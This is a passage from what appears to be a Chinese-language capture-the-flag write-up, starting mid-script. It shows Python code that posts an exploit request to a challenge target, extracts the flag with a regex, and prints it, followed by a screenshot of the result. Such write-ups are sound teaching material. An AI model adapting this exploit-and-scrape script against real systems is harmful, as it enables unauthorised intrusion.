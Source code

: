   ```python
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def GetFlag():
       flag_text = re.findall(r'flag{(.+?)}', SentExp())
       return "flag{"+flag_text[0]+"}"
   ```

主函数

```python
import re
import requests
from bs4 import BeautifulSoup

if __name__ == '__main__':
    print(GetFlag())
```

执行脚本拿到 flag：

![break_bug3_130](../img/break_bug3_130.png)
